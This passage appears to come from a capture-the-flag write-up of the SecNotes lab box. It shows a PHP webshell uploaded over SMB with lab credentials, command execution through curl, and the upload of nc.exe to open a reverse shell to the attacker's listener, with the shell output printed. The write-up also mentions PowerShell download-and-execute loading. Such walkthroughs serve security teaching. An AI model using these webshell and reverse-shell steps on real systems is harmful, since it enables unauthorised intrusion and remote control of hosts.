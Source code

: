     
    root@kali# cat /opt/shells/php/cmd.php 
    <?php system($_REQUEST['cmd']); ?>
    
    root@kali# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/php/cmd.php 0xdf.php'
    putting file /opt/shells/php/cmd.php as \0xdf.php (0.5 kb/s) (average 0.5 kb/s)
    
    root@kali# curl http://10.10.10.97:8808/0xdf.php?cmd=whoami
    secnotes\tyler
    

Success. I now have code execution.

### Interactive Shell

There’s multiple ways to go from Webshell to interactive shell on a windows
host. Typically, on Windows my favorite is to use `powershell iex()` on a
`webclient.downloadstring` object to load something like Nishang’s Invoke-
PowerShellTcp.ps1. But since I already have unfettered write access to the
host, this seems like as good a case as any to try something different and
upload `nc.exe`.

First find a copy of `nc` and put it to disk:

    
    
    root@kali# locate nc.exe
    /opt/SecLists/Web-Shells/FuzzDB/nc.exe
    /opt/shells/netcat/nc.exe
    /usr/lib/mono/4.5/cert-sync.exe
    /usr/share/seclists/Web-Shells/FuzzDB/nc.exe
    /usr/share/sqlninja/apps/nc.exe
    /usr/share/windows-binaries/nc.exe
    
    root@kali# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/netcat/nc.exe nc.exe'
    putting file /opt/shells/netcat/nc.exe as \nc.exe (359.2 kb/s) (average 359.2 kb/s)
    

Next, invoke it to get a shell back:

    
    
    root@kali# curl "http://10.10.10.97:8808/0xdf.php?cmd=nc.exe+-e+cmd.exe+10.10.14.15+443"
    
    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.97.
    Ncat: Connection from 10.10.10.97:49738.
    Microsoft Windows [Version 10.0.17134.228]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\inetpub\new-site>whoami
    secnotes\tyler
    